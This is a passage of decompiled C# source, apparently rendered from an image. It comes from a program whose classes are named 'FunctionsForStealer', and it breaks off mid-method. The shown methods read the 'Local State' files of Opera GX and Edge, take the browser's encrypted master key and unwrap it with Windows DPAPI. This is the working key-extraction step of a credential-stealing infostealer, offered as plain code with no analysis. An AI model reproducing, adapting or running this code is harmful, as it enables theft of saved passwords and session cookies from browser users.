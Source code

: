 ```csharp
				CallSite <>p__2 = FunctionsForStealer.LocalStateKeys.<>o__1.<>p__1;
				if (FunctionsForStealer.LocalStateKeys.<>o__1.<>p__0 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__1.<>p__0 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "os_crypt", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				string text3 = target(<>p__, target2(<>p__2, FunctionsForStealer.LocalStateKeys.<>o__1.<>p__0.Target(FunctionsForStealer.LocalStateKeys.<>o__1.<>p__0, obj)));
				byte[] array = Convert.FromBase64String(text3).Skip(5).ToArray<byte>();
				return ProtectedData.Unprotect(array, null, DataProtectionScope.CurrentUser);
			}

			// Token: 0x0600001D RID: 29 RVA: 0x00003254 File Offset: 0x00001454
			public static byte[] GetKeyOperaGX()
			{
				string text = Variables.roamingappdata + "\\Opera Software\\Opera GX Stable\\Local State";
				string text2 = File.ReadAllText(text);
				object obj = JsonConvert.DeserializeObject(text2);
				if (FunctionsForStealer.LocalStateKeys.<>o__2.<>p__2 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__2.<>p__2 = CallSite<Func<CallSite, object, string>>.Create(Binder.Convert(CSharpBinderFlags.None, typeof(string), typeof(FunctionsForStealer.LocalStateKeys)));
				}
				Func<CallSite, object, string> target = FunctionsForStealer.LocalStateKeys.<>o__2.<>p__2.Target;
				CallSite <>p__ = FunctionsForStealer.LocalStateKeys.<>o__2.<>p__2;
				if (FunctionsForStealer.LocalStateKeys.<>o__2.<>p__1 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__2.<>p__1 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "encrypted_key", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				Func<CallSite, object, object> target2 = FunctionsForStealer.LocalStateKeys.<>o__2.<>p__1.Target;
				CallSite <>p__2 = FunctionsForStealer.LocalStateKeys.<>o__2.<>p__1;
				if (FunctionsForStealer.LocalStateKeys.<>o__2.<>p__0 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__2.<>p__0 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "os_crypt", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				string text3 = target(<>p__, target2(<>p__2, FunctionsForStealer.LocalStateKeys.<>o__2.<>p__0.Target(FunctionsForStealer.LocalStateKeys.<>o__2.<>p__0, obj)));
				byte[] array = Convert.FromBase64String(text3).Skip(5).ToArray<byte>();
				return ProtectedData.Unprotect(array, null, DataProtectionScope.CurrentUser);
			}

			// Token: 0x0600001E RID: 30 RVA: 0x00003384 File Offset: 0x00001584
			public static byte[] GetKeyEdge()
			{
				string text = Variables.localappdata + "\\Microsoft\\Edge\\User Data\\Local State";
				string text2 = File.ReadAllText(text);
				object obj = JsonConvert.DeserializeObject(text2);
				if (FunctionsForStealer.LocalStateKeys.<>o__3.<>p__2 == null)
				{
```